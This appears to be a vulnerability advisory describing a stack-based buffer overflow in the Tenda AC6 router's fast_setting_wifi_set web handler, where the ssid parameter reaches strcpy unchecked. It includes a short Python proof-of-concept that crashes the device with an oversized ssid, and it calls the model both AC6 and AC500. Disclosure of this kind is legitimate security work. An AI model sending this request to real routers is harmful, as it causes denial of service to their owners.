 # Tenda Router AC6 Vulnerability
This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AC500. (The latest version is [AC6_V15.03.05.19](https://www.tenda.com.cn/download/detail-2681.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `form_fast_setting_wifi_set`.

In function `form_fast_setting_wifi_set` it reads user provided parameter `ssid` into src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/AC6/205_1/vlun2.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a Deny of Service Attack.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
